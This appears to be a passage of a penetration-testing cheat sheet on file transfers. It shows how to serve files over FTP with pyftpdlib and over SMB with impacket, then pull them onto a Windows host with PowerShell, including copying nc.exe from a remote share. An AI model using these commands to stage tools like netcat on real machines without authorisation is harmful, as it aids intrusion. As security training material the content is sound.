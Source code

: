 ### FTP Downloads

```bash
  sudo apt install python3-pyftpdlib
  sudo python3 -m pyftpdlib -p 21
```

```powershell
  (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
``` 

**Help Command for pyftpdlib**

```bash

python3 -m pyftpdlib --help
usage: python3 -m pyftpdlib [options]

Start a stand alone anonymous FTP server.

options:
  -h, --help            show this help message and exit
  -i, --interface ADDRESS
                        specify the interface to run on (default all interfaces)
  -p, --port PORT       specify port number to run on (default 2121)
  -w, --write           grants write access for logged in user (default read-only)
  -d, --directory FOLDER
                        specify the directory to share (default current directory)
  -n, --nat-address ADDRESS
                        the NAT address to use for passive connections
  -r, --range FROM-TO   the range of TCP ports to use for passive connections (e.g. -r 8000-9000)
  -D, --debug           enable DEBUG logging level
  -v, --version         print pyftpdlib version and exit
  -V, --verbose         activate a more verbose logging
  -u, --username USERNAME
                        specify username to login with (anonymous login will be disabled and password required if supplied)
  -P, --password PASSWORD
                        specify a password to login with (username required to be useful)

```

### SMB Downloads

```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell
copy \\192.168.220.133\share\nc.exe
````

## Uploads
